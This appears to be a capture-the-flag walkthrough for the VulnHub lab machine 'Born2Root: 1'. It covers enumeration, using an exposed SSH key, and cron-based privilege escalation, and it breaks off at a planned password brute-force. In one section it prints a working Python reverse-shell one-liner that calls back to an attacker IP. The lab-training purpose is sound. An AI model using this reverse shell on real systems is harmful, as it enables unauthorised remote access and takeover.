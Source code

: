 # Born2Root: 1

## 1.Get VM IP

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3d1116fe-6019-4783-8339-8fbc26286343)

The IP address is `192.168.56.109`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/85cd869d-e904-4ad6-b19b-ec9b4fc7ade4)

So, let's check the webpage first :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59336175-e076-4ad0-be39-cc47c08d9d88)

there afew usernames here : 

- martin
- hadi
- jimmy

write them down and try to fuzz the web application :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ffdfd581-84fc-4476-8bc8-925293af35eb)

we found several directories, first go to `/icons` and there are a lot of files here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2501949e-23dc-4baa-888c-6ee000056202)

## 3.Gaining Shell

Check the file named `VDSoyuAXiO.txt` and you see a SSH private key here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fc3cea2-3a53-49fe-91eb-95976e128380)

we can now check which user does this private key belongs to, i try user `martin` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/726b9871-be30-4f9e-ac46-ab00b27ca1a4)

and for secret password just use a blank password.

## 4.Privilege Escalation 1 (Jimmy)

Check crontab :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/83620935-2f64-4113-9402-c0c9016a627d)

the file `sekurity.py` has jimmy permissions and there are no `sekurity.py` in `/tmp` so we need to create one

and put a reverse shell in it :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/57fb2b39-c6cc-4e35-b08f-bcdce6e93eac)

## 5.Privilege Escalation 2 (root)

If you see the home page of user jimmy, there is a file called `networker` and when execurting it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a01a92d0-0cdf-4713-a188-6a77a97788f8)

this binary is a rabbit hole and has nothing to do with it, since we logged in as 2 users out of 3 possible users

now the only option is to brute force the last user password, user `hadi`, we can generate a new wordlist 
















